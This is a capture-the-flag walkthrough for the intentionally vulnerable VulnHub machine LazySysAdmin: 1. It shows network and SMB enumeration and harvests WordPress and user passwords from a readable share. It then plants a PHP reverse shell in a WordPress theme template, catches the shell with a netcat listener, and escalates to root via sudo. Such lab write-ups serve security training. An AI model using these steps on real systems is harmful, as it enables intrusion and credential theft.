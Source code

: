 # LazySysAdmin: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:70:d2:8a       PCS Systemtechnik GmbH
192.168.56.106  08:00:27:e3:a8:a2       PCS Systemtechnik GmbH

3 packets received by filter, 0 packets dropped by kernel
```

The IP address is `192.168.56.106`, let's enumerate it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC -p22,80,139,445,3306,6667 -v -oN fullScan 192.168.56.106

Nmap scan report for 192.168.56.106
Host is up (0.00039s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 b5:38:66:0f:a1:ee:cd:41:69:3b:82:cf:ad:a1:f7:13 (DSA)
|   2048 58:5a:63:69:d0:da:dd:51:cc:c1:6e:00:fd:7e:61:d0 (RSA)
|   256 61:30:f3:55:1a:0d:de:c8:6a:59:5b:c9:9c:b4:92:04 (ECDSA)
|_  256 1f:65:c0:dd:15:e6:e4:21:f2:c1:9b:a3:b6:55:a0:45 (ED25519)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 4 disallowed entries
|_/old/ /test/ /TR2/ /Backnode_files/
|_http-generator: Silex v2.2.7
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Backnode
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  DDtb        Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
| irc-info:
|   server: Admin.local
|   users: 1
|   servers: 1
|   chans: 0
|   lusers: 1
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.56.102
|_  error: Closing link: (nmap@192.168.56.102) [Client exited]
MAC Address: 08:00:27:E3:A8:A2 (Oracle VirtualBox virtual NIC)
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 9m58s, deviation: 5h46m24s, median: 3h29m57s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2023-10-01T15:52:45
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: lazysysadmin
|   NetBIOS computer name: LAZYSYSADMIN\x00
|   Domain name: \x00
|   FQDN: lazysysadmin
|_  System time: 2023-10-02T01:52:46+10:00
| nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   LAZYSYSADMIN<00>     Flags: <unique><active>
|   LAZYSYSADMIN<03>     Flags: <unique><active>
|   LAZYSYSADMIN<20>     Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
```

let's first go for SMB :

```bash
root@kali: smbmap -H 192.168.56.106

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 192.168.56.106:445      Name: 192.168.56.106            Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        share$                                                  READ ONLY       Sumshare
        IPC$                                                    NO ACCESS       IPC Service (Web server)
```

now connect ot `share$` :

```bash
root@kali: smbclient \\192.168.56.106\share$ -N

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Aug 15 07:05:52 2017
  ..                                  D        0  Mon Aug 14 08:34:47 2017
  wordpress                           D        0  Tue Aug 15 07:21:08 2017
  Backnode_files                      D        0  Mon Aug 14 08:08:26 2017
  wp                                  D        0  Tue Aug 15 06:51:23 2017
  deets.txt                           N      139  Mon Aug 14 08:20:05 2017
  robots.txt                          N       92  Mon Aug 14 08:36:14 2017
  todolist.txt                        N       79  Mon Aug 14 08:39:56 2017
  apache                              D        0  Mon Aug 14 08:35:19 2017
  index.html                          N    36072  Sun Aug  6 01:02:15 2017
  info.php                            N       20  Tue Aug 15 06:55:19 2017
  test                                D        0  Mon Aug 14 08:35:10 2017
  old                                 D        0  Mon Aug 14 08:35:13 2017
```

interesting forlder is wordpress let's see if we can find the wp-config.php file :

```bash
smb: \wordpress\> get wp-config.php
getting file \wordpress\wp-config.php of size 3703 as wp-config.php (1808.0 KiloBytes/sec) (average 1808.1 KiloBytes/sec)
smb: \wordpress\> exit
```

the content of `wp-config.php` file is :

```text
/** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');
```

we also download the `deets.txt` from the share.

content of deets.txt

```text
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345
```

## 3.Gaining Shell

We can not connect to mysql remotely but can connect to wordpress admin panel using the credentials found in `wp-config.php`:

![wordpress panel](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f0e53320-202e-4a26-958d-b0f565a74b04)

now it is easy to get a reverse shell.

upload pentestmonkey php reverse shell into this path :

```text
Appereance -> editor -> 404 Template
```

![404](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2946e356-e603-4c32-b6cd-667455beccb5)

start a listener and navigate to `192.168.56.106/wordpress/wp-content/themes/twentyfifteen/404.php`

```bash
root@kali: nc -nvlp 4444

listening on [any] 4444 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.106] 34822
Linux LazySysAdmin 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
 01:26:57 up  5:00,  0 users,  load average: 0.00, 0.00, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 4.Privilege Escalation

navigate to `/home` and you see user `togie`.

change user to togie and privide the password `12345` we found in deets.txt previously :

```bash
www-data@LazySysAdmin:/var/www/html$ su togie
su togie
Password: 12345

togie@LazySysAdmin:/var/www/html$
```

check the sudo permissions :

```bash
togie@LazySysAdmin:/var/www/html$ sudo -l
Matching Defaults entries for togie on LazySysAdmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User togie may run the following commands on LazySysAdmin:
    (ALL : ALL) ALL

togie@LazySysAdmin:/var/www/html$ sudo bash

root@LazySysAdmin:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)

root@LazySysAdmin:/var/www/html# cd /root

root@LazySysAdmin:/root# cat proof.txt
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851


Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie




Enjoy some random strings

WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu
```

this is how you can become root on this machine :)




